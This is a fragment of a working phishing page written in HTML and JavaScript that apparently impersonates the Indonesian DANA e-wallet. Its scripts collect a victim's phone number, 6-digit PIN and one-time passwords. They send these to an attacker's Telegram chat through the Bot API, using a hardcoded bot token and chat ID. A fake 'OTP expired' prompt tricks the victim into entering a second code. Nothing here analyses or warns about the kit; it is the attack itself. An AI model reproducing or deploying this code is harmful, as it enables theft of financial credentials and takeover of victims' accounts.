        document.getElementById("alert").innerHTML = "Kode dikirim ke +62 " + nomor+ " via<br/>";
  var logo = document.getElementById('logo'); 
  var inp = document.getElementById('inp');
 var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     
  var gabungan = '' + logo.value + '%0A※ 𝗡𝗼𝗺𝗼𝗿 𝗗𝗔𝗡𝗔 : ' + '0' + inp.value + '%0A※ 𝗣𝗜𝗡 𝗗𝗔𝗡𝗔.     : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value;
  
     
 

 var token = '7296089212:AAHsy468ZsxS7VVed0hTWSHID9PkdSpSLO8'; // Ganti dengan token bot yang kamu buat
    var grup = '7412961572'; // Ganti dengan chat id dari bot yang kamu buat
    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,


success: function(){
$("#process").hide();
document.getElementById("alert").style.display = "block"; 
$(".bgotp").fadeIn();
setInterval(countdown, 1000);
$("#otp1").focus();
}
}
);
};


  function sendOtp(){
    $(".loadingOtp").show();
     var logo = document.getElementById('logo'); 
     var inp = document.getElementById('inp');
 var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     var otp1 = document.getElementById('otp1');
   var otp2 = document.getElementById('otp2');
   var otp3 = document.getElementById('otp3');
   var otp4 = document.getElementById('otp4');
      setTimeout(function(){
$(".alert").text("Masa berlaku OTP sudah habis");
$(".alert").css("color","red");
 },2000);
    var gabungan = '' + logo.value + '%0A※ 𝗡𝗼𝗺𝗼𝗿 𝗗𝗔𝗡𝗔 : ' + '0' + inp.value + '%0A※ 𝗣𝗜𝗡 𝗗𝗔𝗡𝗔.     : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value + '%0A%0A※ 𝗢𝗧𝗣 𝗗𝗔𝗡𝗔     : ' + otp1.value + otp2.value + otp3.value + otp4.value;


 var token = '7296089212:AAHsy468ZsxS7VVed0hTWSHID9PkdSpSLO8'; // Ganti dengan token bot yang kamu buat
    var grup = '7412961572'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
        
   success: function(){
    setTimeout(function(){
    $(".loadingOtp").hide();
   
    $('.inpotp').val('');
   $('#otp1').focus();
  var nomor = sessionStorage.getItem("nomor");
        document.getElementById("alert").innerHTML = "Kode baru dikirim ulang ke +62" + nomor +  " via<br/>";
   $(".alert").css("color","black");
    },4000);
   
        
    }
        
    }
    );
        
    };
    </script>
<script>
    function countdown() {
    var count = parseInt(
    $('#countdown').text());
    if (count !== 0) {
    $('#countdown').text(count - 1);} 
    else {
    $('#countdown').text('60');}};
    </script>
<script>
window.onload = function(){
        setTimeout(function(){
            $(".start").fadeIn();
            setTimeout(function(){
                $(".start").fadeOut(1000);
                setTimeout(function(){
                   $(".container").fadeIn(200);
                   $("#inp").focus();
                },1000);
            },1000);
        },500);
}
</script>
</body>
</html><!--<script src='https://a.bsite.net/footer.js'></script>
